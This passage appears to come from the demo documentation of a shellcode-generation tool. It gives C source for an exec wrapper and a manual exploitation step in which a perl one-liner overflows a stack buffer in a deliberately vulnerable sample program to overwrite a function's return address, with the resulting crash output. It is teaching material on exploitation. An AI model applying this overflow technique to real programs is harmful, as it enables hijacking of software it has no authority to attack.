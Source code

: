 [*exec_wrapper.c*](https://raw.githubusercontent.com/VincentDary/PolyAsciiShellGen/master/demo/exec_wrapper.c)

```c
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>

int main(int argc, char *argv[])
{
    int e;
    char exec_bin_name[] = "./vuln_ascii_filter_sample";
    char *exec_argv[] = { exec_bin_name, NULL };
    char *exec_envp[] = { NULL };

    printf("\n\n[demo exec wrapper] Executing %s\n\n", exec_bin_name);

    e = execve(exec_bin_name, exec_argv, exec_envp);

    if (e == -1)
        fprintf(stderr, "[demo exec wrapper] error %s\n", strerror(errno));

    return 0;
}
```

For this demonstration, the wrapper script is compiled in 32 bit.

```text
$ gcc -m32 exec_wrapper.c -o exec_wrapper
```


### Quick Manual Exploitation

First step, a crafted input is passed to the standard input of the vulnerable
program example to trigger the stack buffer overflow in the `b_info.book_ref`
local buffer and hijacks the program execution flow by rewriting the return
address of the `register_book()` function.

```text
$ ( perl -e 'print "A"x24 . "\xef\xbe\xad\xde"  . "\n" . "book-comment\n"';  cat ) | ./exec_wrapper

[demo exec wrapper] Executing ./vuln_ascii_filter_sample

[0xffffdc24] @b_info.comment
[0xffffde24] @b_info.book_ref
[+] Enter a book reference:
[+] Enter a book commentary:
[+] Book registered.

reference: AAAA
commentary: book-comment

Segmentation fault
```
